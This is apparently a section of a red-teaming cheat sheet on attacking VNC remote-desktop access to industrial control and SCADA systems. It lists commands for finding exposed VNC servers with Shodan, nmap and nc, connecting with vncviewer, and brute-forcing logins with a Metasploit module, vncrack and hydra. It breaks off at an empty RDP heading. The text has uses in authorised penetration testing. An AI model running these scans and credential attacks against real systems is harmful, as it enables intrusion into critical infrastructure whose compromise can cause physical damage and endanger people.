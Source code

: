 
### VNC

VNC (Virtual Network Computing) is a popular remote desktop sharing protocol that allows a user to control a computer over a network connection. In the context of red teaming for OT attacks, VNC can be used to gain remote access to an Industrial Control System (ICS) or Supervisory Control and Data Acquisition (SCADA) system. This could be done by exploiting vulnerabilities in the system or by using phishing attacks to gain access to an employee's computer with administrative access to the ICS or SCADA system


Find VNC Server:


Shodan: 

```text
vnc country: [two letter country code]
```

or

```text
nmap -p 5900 [target IP address]
```

or

```text
nc [target IP address] 5900
```


To Connect:

```text
vncviewer -autopass [target IP address]:[display number]
```

to Crack:


```text
use auxiliary/scanner/vnc/vnc_login
set rhosts [target IP address]
set user_file [path to username file]
set pass_file [path to password file]
run
```

or

```text
vncrack -P /path/to/password/file.txt -u username -H <IP address> -v <VNC port>
```

or

```text
hydra -L usernames.txt -P passwords.txt -s 5900 -f -vV <target_ip> vnc
```


### RDP
